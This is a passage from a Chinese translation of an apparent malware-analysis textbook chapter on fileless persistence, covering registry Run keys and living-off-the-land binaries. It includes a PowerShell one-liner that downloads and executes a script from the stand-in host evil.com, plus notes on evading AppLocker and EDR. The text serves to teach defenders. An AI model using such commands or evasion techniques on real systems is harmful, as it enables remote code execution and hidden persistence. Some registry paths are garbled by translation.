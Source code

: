 ```
powershell.exe -C "IEX(New-Object Net.WebClient).DownloadString('https://evil.com/evil.ps1')"
```

执行后，当系统用户登录 Windows 时，此命令会从远程 Web 服务器 (*evil.com*) 下载一个 PowerShell 脚本 (*evil.ps1)*，并直接在内存中执行。我们这里不再讨论这个命令，因为本章后面会更详细地介绍 PowerShell，但请记住，恶意软件可以轻松地将命令和代码隐藏在注册表中，使用 <samp class="SANS_TheSansMonoCd_W5Regular_11">运行</samp> 和 <samp class="SANS_TheSansMonoCd_W5Regular_11">运行一次</samp> 键是其中一种方法。表 15-1 显示了其他非详尽的 <samp class="SANS_TheSansMonoCd_W5Regular_11">运行</samp> 键和注册表中的持久性位置。

<samp class="SANS_Futura_Std_Heavy_B_11">表 15-1：</samp> <samp class="SANS_Futura_Std_Book_11">恶意软件可能使用的注册表键来建立持久性</samp>

| <samp class="SANS_Futura_Std_Heavy_B_11">注册表项/键</samp> | <samp class="SANS_Futura_Std_Heavy_B_11">描述</samp> |
| --- | --- |

| <samp class="SANS_Futura_Std_Book_Oblique_I_11">HKCU\<wbr>Software\<wbr>Microsoft\<wbr>Windows\ CurrentVersion\<wbr>Policies\<wbr>Explorer\<wbr>Run</samp><samp class="SANS_Futura_Std_Book_Oblique_I_11">HKLM\<wbr>Software\<wbr>Microsoft\<wbr>Windows\

当前版本\<wbr>策略\<wbr>资源管理器\<wbr>运行</samp> | <samp class="SANS_Futura_Std_Book_11">这些</samp> <samp class="SANS_TheSansMonoCd_W5Regular_11">运行</samp> <samp class="SANS_Futura_Std_Book_11">键类似于之前提到的键。任何添加到它们的内容都会在用户登录时执行。它们在 Windows 中不会默认创建，因此必须手动添加。</samp> |

| <samp class="SANS_Futura_Std_Book_Oblique_I_11">HKCU\<wbr>Software\<wbr>Microsoft\<wbr>Windows NT\ CurrentVersion\<wbr>Winlogon</samp><samp class="SANS_Futura_Std_Book_Oblique_I_11">HKLM\<wbr>Software\<wbr>Microsoft\<wbr>Windows NT\

CurrentVersion\<wbr>Winlogon</samp> | <samp class="SANS_Futura_Std_Book_11">这些键包含 Windows 登录配置，包括在登录时执行的程序。这些可以被修改以运行恶意软件或恶意命令。</samp> |

| <samp class="SANS_Futura_Std_Book_Oblique_I_11">HKLM\<wbr>System\<wbr>CurrentControlSet\<wbr>Services</samp> | <samp class="SANS_Futura_Std_Book_11">此键包含主机上配置的服务信息。驱动程序也包含在此</samp> <samp class="SANS_Futura_Std_Book_Oblique_I_11">HKLM\<wbr>SYSTEM\<wbr>CurrentControlSet\​Services\<wbr><DriverName></samp><samp class="SANS_Futura_Std_Book_11">。如果恶意软件将持久性机制（或恶意驱动程序）作为服务安装，它可以在这里看到。</samp> |
| --- | --- |

这只是持久性机制冰山一角。这里描述的 <samp class="SANS_TheSansMonoCd_W5Regular_11">Run</samp> 键是文件无持久性技术中最常用的一些，但还有其他的。欲了解更多信息，请访问 MITRE ATT&CK 网站 [*https://<wbr>attack<wbr>.mitre<wbr>.org<wbr>/tactics<wbr>/TA0003<wbr>/*](https://attack.mitre.org/tactics/TA0003/)。

### <samp class="SANS_Futura_Std_Bold_B_11">利用现有资源的二进制文件</samp>

现在让我们转向恶意软件可能用来发起无文件攻击的另一种技术：LOLBin。有几个原因可能导致恶意软件调用 LOLBin：

**绕过应用程序限制控制，如 AppLocker**

AppLocker 是 Windows 的一种安全控制，用于防止不需要的应用程序执行。恶意软件可以通过使用系统二进制文件作为代理来绕过它。

**避免被检测**

EDR、反恶意软件和其他端点防御系统对 LOLBin 的审查较少，因为它们通常是数字签名的，因此由操作系统本身验证。此外，许多 LOLBin 允许恶意代码在内存中执行，这进一步增强了其规避能力。

**隐藏在噪音中**

由于日常系统管理员工作需要使用许多 LOLBin，因此很难开发出有效的逻辑来检测这些工具的恶意使用；它们生成的噪音可能会给分析人员带来筛选的挑战。

**阻碍调查**

由于许多 LOLBin 实际上允许恶意代码在内存中执行并支持无文件攻击，调查这些攻击有时比调查那些在磁盘上留下较大痕迹的攻击更困难。

LOLBin 的分类可能相当主观。一些专家认为，LOLBin 是可以被威胁行为者以意外方式滥用的合法应用程序。然而，这一定义将排除所有可以被行为者以“预期”方式滥用的应用程序（例如，调用 *cmd.exe* 删除文件）。我的看法更符合攻击者“利用现有资源”的本质，这意味着攻击者可以并且会利用任何可用的资源，而“预期”和“意外”的使用场景并不被考虑。在我看来，LOLBin 是任何常见的应用程序或工具，它可以被行为者滥用。让我们看看如何借助 VBA 代码和宏来实现这一点。

#### <samp class="SANS_Futura_Std_Bold_Condensed_Oblique_I_11">基于 VBA 宏的恶意软件</samp>
